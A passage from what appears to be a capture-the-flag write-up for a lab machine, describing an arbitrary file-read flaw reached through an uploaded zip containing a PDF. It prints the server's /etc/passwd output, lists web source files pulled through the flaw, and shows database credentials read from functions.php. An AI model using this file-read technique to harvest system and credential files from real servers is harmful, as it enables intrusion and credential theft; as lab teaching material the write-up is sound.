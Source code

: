 This vulnerability only grants the ability to read any file on the server, but it does not allow the execution of .php files or listing files under a directory.

### Initial Enumeration
Upload the .zip and go to the .pdf file, I recommend use Burp Suite to see the response of the server. The Developer Tools of browsers didn't work for me. Extracting the contents of `/etc/passwd` from the server reveals user information, i.e. user named "rektsu". 

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

Exploiting this vulnerability we can obtain valuables files such as:

- `/var/www/html/index.php`
- `/var/www/html/shop/index.php`
- `/var/www/html/shop/cart.php`
- `/var/www/html/shop/products.php`
- `/var/www/html/shop/home.php`
- `/var/www/html/shop/functions.php`

In the `/var/www/html/shop/functions.php` we will get database credentials:

```php
$DATABASE_HOST = 'localhost';
$DATABASE_USER = 'root';
$DATABASE_PASS = 'MySQL_P@ssw0rd!';
$DATABASE_NAME = 'zipping';
```
